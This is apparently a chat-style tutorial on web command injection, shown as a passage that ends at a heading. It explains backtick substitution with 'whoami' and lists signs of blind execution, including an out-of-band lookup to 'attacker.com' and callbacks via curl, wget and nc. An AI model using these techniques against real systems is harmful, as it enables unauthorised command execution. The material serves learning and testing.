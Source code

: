 * The command inside backticks (`whoami`) **runs first**
* Its output replaces the backtick section
* So it becomes: `echo "Your user is: your_username"`

**In web command injection**, when the vulnerable code builds a string, backticks **insert the result of the command** right into it.

> 📌 Example:

```bash
echo Hello `whoami`
```

→ Output: `Hello root`

---

### ❌ Why you got “command not found”:

You probably ran something like:

```bash
`whoami`
```

…by itself, and Bash tried to **run the result as a command**.

> Example:

```bash
`ls`  # becomes: output_of_ls (e.g. Desktop Documents...) → now Bash tries to run that
```

To avoid that, **wrap it inside another command** like:

```bash
echo `whoami`
```

✅ Try this and it’ll work properly.

---

### ✅ 4. What are signs of successful command execution?

> **Your answer:** *Server delay, store output in file, confirm with OOB or LFI*

**✔ Dead-on.**
Even if you don’t see output in the response, you might:

* **See a delay** (time-based inference)
* **See file artifacts** (written output)
* **See DNS logs** (with payloads like `nslookup attacker.com`)
* **Trigger callbacks** (`curl`, `wget`, `nc`, `burp-collaborator`)

🧠 Note: If it’s *blind injection*, **any state change** = proof of execution.

---

### ✅ 5. Retrieving output from blind injection
